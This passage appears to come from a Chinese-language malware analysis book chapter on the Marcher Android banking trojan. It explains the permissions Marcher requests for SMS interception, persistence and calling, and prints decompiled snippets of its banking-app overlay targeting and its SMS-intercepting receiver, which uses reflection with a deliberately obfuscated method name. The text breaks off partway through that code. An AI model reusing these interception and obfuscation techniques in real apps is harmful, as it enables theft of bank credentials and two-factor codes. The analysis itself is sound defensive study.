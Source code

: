 *列表 9-2：Marcher 请求的所有权限*

除了用于拦截和响应双因素认证消息的非常重要的与 SMS 相关的权限外，Marcher 还有其他有趣的功能。它借助 `RECEIVE_BOOT_COMPLETED` 权限在设备上获得持久性，这使得它可以在每次手机启动后重新启动。它可以通过 `CALL_PHONE` 权限拨打从其指挥控制服务器下载的任意号码，并使用 `VIBRATE` 权限将用户的注意力吸引到某些对话框上。

列表 9-3 显示了 Marcher 查找银行应用 *au.com.bankwest.mobile*，这是 Marcher 查找的多个银行应用之一，用于覆盖屏幕。

```
public void a(String str) {
  char c2 = 65535;
  switch (str.hashCode()) {
    case 849595102:
      if (str.equals("au.com.bankwest.mobile")) {
        c2 = 0;
        break;
      }
      break;
  }
  switch (c2) {
    case 0:
      b("au.com.bankwest.mobile");
      a((int) R.drawable.ic_stat_content_mail);
      b((int) R.drawable.ic_stat_content_mail);
      return;
    default:
      b(str);
      a((int) R.drawable.ic_stat_content_mail);
      b((int) R.drawable.ic_stat_content_mail);
      return;
  }
}
```

*列表 9-3：显示 Marcher 查找银行应用的代码片段*

需要查找的具体银行应用是由指挥控制服务器传递的。*au.com.bankwest.mobile* 出现在源代码中的唯一原因是，恶意软件似乎需要对这个应用进行特殊处理，与其他所有银行应用不同。

列表 9-4 显示了 Marcher ABT 接收并处理传入的 SMS 消息。

```
public class e extends BroadcastReceiver {
  protected static final String a = com.fasstr.e.e.a(MessageReceiver.class);
  protected c b;

  private void a(Context context, Intent intent) {
    if (this.b.b()) {
      Object[] objArr = (Object[]) intent.getExtras().get("pdus");
      SmsMessage[] smsMessageArr = new SmsMessage[objArr.length];
      for (int i = 0; i < objArr.length; i++) {
        try {
          smsMessageArr[i] = (SmsMessage) SmsMessage.class.getMethod(
            "cre_ateF_romP_du".replace("_", ""),
            new Class[]{byte[].class}).invoke(
              (Object) null, 
              new Object[]{(byte[]) objArr[i]});
          Log.d(a, "MSG GOT:" + smsMessageArr[i].getMessageBody());
        } catch (Exception e) {
          Log.d(a, "Handler method fail");
          e.printStackTrace();
        }
      }
      if (this.b.c()) {
        if (System.currentTimeMillis() - this.b.d() > this.b.e()) {
          this.b.b(false);
          this.b.a((String) null);
        }
      }
```